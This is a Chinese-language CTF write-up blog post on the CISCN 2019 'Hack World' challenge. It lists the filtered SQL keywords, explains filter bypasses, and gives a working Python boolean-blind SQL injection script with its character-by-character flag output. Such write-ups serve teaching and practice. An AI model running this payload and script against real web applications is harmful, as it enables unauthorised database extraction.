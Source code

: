 ```yaml
---
title: buuoj刷题记录3
date: 2019-12-27 12:42:41
tags:
 - ciscn
 - web
 - ctf
 - buuctf
categories: 
 - 刷题记录
---
```


## [CISCN2019 华北赛区 Day2 Web1]Hack World

### 0x00 基础

SQL盲注，使用`if(表达式1，表达式2，表达式3)、ascii(char)、substr（str,pos,len）`函数一个一个的猜字符，过滤绕过，空格可以使用`+、\t、/**/、()`绕过。
```
if(表达式1，表达式2，表达式3)  如果表达式1的值为真，取表达式二的值，否者取表达式三的值
ascii(char)
substr（str,pos,len)
```
<!--more-->

### 0x01 分析

题目提示

```
flag{} 里为 uuid
```

访问页面

![](/pic/3.jpg)



使用burp suite进行sql fuzz测试，以下字符被过滤

|       %20        | 482  | SQL Injection Checked |
| :--------------: | ---- | --------------------- |
|       AND        | 482  | SQL Injection Checked |
|      DELETE      | 482  | SQL Injection Checked |
|     END-EXEC     | 482  | SQL Injection Checked |
|      GROUP       | 482  | SQL Injection Checked |
|      INSERT      | 482  | SQL Injection Checked |
|       INTO       | 482  | SQL Injection Checked |
|      LIMIT       | 482  | SQL Injection Checked |
|        OR        | 482  | SQL Injection Checked |
|      UNION       | 482  | SQL Injection Checked |
|      UPDATE      | 482  | SQL Injection Checked |
|        +         | 482  | SQL Injection Checked |
|        /         | 482  | SQL Injection Checked |
|        -         | 482  | SQL Injection Checked |
|        *         | 482  | SQL Injection Checked |
|        `         | 482  | SQL Injection Checked |
|        "         | 482  | SQL Injection Checked |
|       \|\|       | 482  | SQL Injection Checked |
|        &&        | 482  | SQL Injection Checked |
|       %23        | 482  | SQL Injection Checked |
|;|482|SQL Injection Checked |
`if,substr,ascii,<,>,=,(),/t`都没有被过滤，可以使用盲注,编写脚本，空格被过滤使用`/t、( )代替`

### 0x02 开始操作

```python
# -*- coding: utf-8 -*-
# @Time    : 12/27/2019 6:11 PM
import requests
import time

url = "http://97d580f3-633c-469e-826c-3e251279ebba.node3.buuoj.cn/index.php"
result = ''

for x in range(1, 43):
    high = 126
    low = 45
    mid = (low + high) // 2


    while high - low > 1:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id": payload
        }
        time.sleep(0.3)
        res = requests.post(url, data = data)
        if 'Hello' in res.text:
            low = mid
        else:
            high = mid
        mid = (low + high) // 2

    if high - low == 1:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))=%d,1,2)" % (x, high)
        data = {
            "id": payload
        }
        response = requests.post(url, data=data)
        if 'Hello' in response.text:
            result += chr(int(mid+1))
        else :
            result += chr(int(mid))
    else :
        result += chr(int(mid))
    print(result)
```

```bash
f
fl
fla
flag
flag{
flag{a
flag{a2
flag{a22
flag{a22c
flag{a22cf
flag{a22cf6
flag{a22cf69
flag{a22cf690
flag{a22cf690-
flag{a22cf690-3
flag{a22cf690-34
flag{a22cf690-342
flag{a22cf690-342a
flag{a22cf690-342a-
flag{a22cf690-342a-4
flag{a22cf690-342a-4b
flag{a22cf690-342a-4bf
flag{a22cf690-342a-4bf4
flag{a22cf690-342a-4bf4-
flag{a22cf690-342a-4bf4-8
flag{a22cf690-342a-4bf4-88
flag{a22cf690-342a-4bf4-885
flag{a22cf690-342a-4bf4-885b
flag{a22cf690-342a-4bf4-885b-
flag{a22cf690-342a-4bf4-885b-d
flag{a22cf690-342a-4bf4-885b-df
flag{a22cf690-342a-4bf4-885b-df3
flag{a22cf690-342a-4bf4-885b-df33
flag{a22cf690-342a-4bf4-885b-df332
flag{a22cf690-342a-4bf4-885b-df332d
flag{a22cf690-342a-4bf4-885b-df332d4
flag{a22cf690-342a-4bf4-885b-df332d44
flag{a22cf690-342a-4bf4-885b-df332d446
flag{a22cf690-342a-4bf4-885b-df332d4469
flag{a22cf690-342a-4bf4-885b-df332d44698
flag{a22cf690-342a-4bf4-885b-df332d44698d
flag{a22cf690-342a-4bf4-885b-df332d44698d}
```

因为平台有访问频率限制，导致之前很多次都不成功，加入时间模块稍微延迟一下即可。



